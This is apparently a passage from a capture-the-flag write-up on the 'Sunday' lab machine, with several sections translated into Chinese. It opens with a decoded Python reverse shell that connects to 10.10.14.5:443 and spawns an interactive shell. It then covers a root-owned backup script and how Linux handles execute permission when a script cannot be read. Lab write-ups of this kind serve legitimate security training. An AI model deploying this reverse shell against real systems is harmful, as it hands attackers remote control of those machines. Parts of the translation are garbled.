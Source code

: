     root@sunday:~# cat  shell.b64 | head -2 | tail -1 | base64 -d
    #!/usr/bin/python
    
    import socket
    import subprocess
    import os
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.5",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"]);
    

### agent22

#### Discovery

When on as sunny, I noticed a second file in the directory next to the shadow backup:`/backup`

    sunny@sunday:/backup$ ls -l
    total 2
    -r-x--x--x 1 root root  53 2018-04-24 10:35 agent22.backup
    -rw-r--r-- 1 root root 319 2018-04-15 20:44 shadow.backup
    

And while we don’t have permission to read the file, we can try to run it:

    sunny@sunday:/backup$ ./agent22.backup
    /usr/bin/bash: ./agent22.backup: Permission denied
    

#### Permissions Issues

那么，为什么权限被拒绝呢？它归结为运行时发生的情况。如果该程序是二进制文件（即精灵），则内核首先检查当前用户是否具有执行该文件的权限，然后内核读取该文件并由内核加载到内存中。`./program`

但是，对于解释型脚本（python、perl、bash、sh 等），内核以当前用户的身份加载解释器，然后该解释器尝试读取文件内容并运行它们。但是，在这种情况下，由于解释器以晴天身份运行，对文件没有读取权限，因此被拒绝。

#### 这是什么

使用根外壳，我们发现这实际上只是巨魔的备份副本：

    root@sunday:/backup# cat agent22.backup
    #!/usr/bin/bash
    
    /usr/bin/echo "testing"
    /usr/bin/id
    

    root@sunday:/# diff -s /root/troll /backup/agent22.backup
    Files /root/troll and /backup/agent22.backup are identical
    

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2018/09/29/htb-sunday.html)